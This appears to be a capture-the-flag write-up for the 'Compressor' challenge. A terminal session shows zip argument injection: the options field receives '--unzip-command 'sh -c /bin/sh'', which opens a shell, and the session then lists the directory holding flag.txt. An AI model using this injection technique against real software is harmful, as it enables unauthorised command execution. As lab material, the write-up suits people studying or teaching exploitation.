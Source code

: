 # Compressor

##  CHALLENGE DESCRIPTION

Ramona's obsession with modifications and the addition of artifacts to her body has slowed her down and made her fail and almost get killed in many missions. For this reason, she decided to hack a tiny robot under Golden Fang's ownership called "Compressor", which can reduce and increase the volume of any object to minimize/maximize it according to the needs of the mission. With this item, she will be able to carry any spare part she needs without adding extra weight to her back, making her fast. Can you help her take it and hack it?

```
nc 83.136.254.158 44462

[*] Directory to work in: r91Oj85oTvtDVGTTDLF5HXFrrBWy5uBn

Component List:

+===============+
|               |
|  1. Head  🤖  |
|  2. Torso 🦴   |
|  3. Hands 💪  |
|  4. Legs  🦵   |
|               |
+===============+
  
[*] Choose component: 1

[*] Sub-directory to work in: r91Oj85oTvtDVGTTDLF5HXFrrBWy5uBn/Head


Actions:

1. Create artifact
2. List directory    (pwd; ls -la)
3. Compress artifact (zip <name>.zip <name> <options>)
4. Change directory  (cd <dirname>)
5. Clean directory   (rm -rf ./*)
6. Exit
  
[*] Choose action: 1   


Insert name: hack

Insert content: hack


[+] Artifact [hack] was created successfuly!

Actions:                                                                                                                                                      
                                                                                                                                                              
1. Create artifact                                                                                                                                            
2. List directory    (pwd; ls -la)                                                                                                                            
3. Compress artifact (zip <name>.zip <name> <options>)                                                                                                        
4. Change directory  (cd <dirname>)                                                                                                                           
5. Clean directory   (rm -rf ./*)                                                                                                                             
6. Exit                                                                                                                                                       
                                                                                                                                                              
[*] Choose action: 3


Insert <name>.zip: hack
Insert <name>: hack
Insert <options>: -T --unzip-command 'sh -c /bin/sh'
  adding: hack (stored 0%)
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
whoami
ctf
pwd
/home/ctf/r91Oj85oTvtDVGTTDLF5HXFrrBWy5uBn/Head
cd ..
cd ..
ls -la
total 40
drwxr-sr-x    1 ctf      ctf           4096 Nov  6 04:57 .
drwxr-xr-x    1 root     root          4096 Mar  3  2022 ..
drwxr-sr-x    6 ctf      ctf           4096 Nov  6 04:57 AK2XyC6xRqb0CRMAp5qwDGe56kkgrAoQ
drwxr-sr-x    6 ctf      ctf           4096 Nov  6 04:57 EGlPz7Fe6LK7gPBTvKNh5OmPFSBYMRlY
-rwxrwxr-x    1 root     root          3020 May 16  2022 artifacts.py
-rw-rw-r--    1 root     root           263 May 12  2022 clear.py
-rw-rw-r--    1 root     root            41 May 23  2022 flag.txt
drwxr-sr-x    6 ctf      ctf           4096 Nov  6 04:57 r91Oj85oTvtDVGTTDLF5HXFrrBWy5uBn
drwxr-sr-x    6 ctf      ctf           4096 Nov  6 04:57 sfOow1YsRyo7BGG2iDoFW7Z57RYSN7H7
```
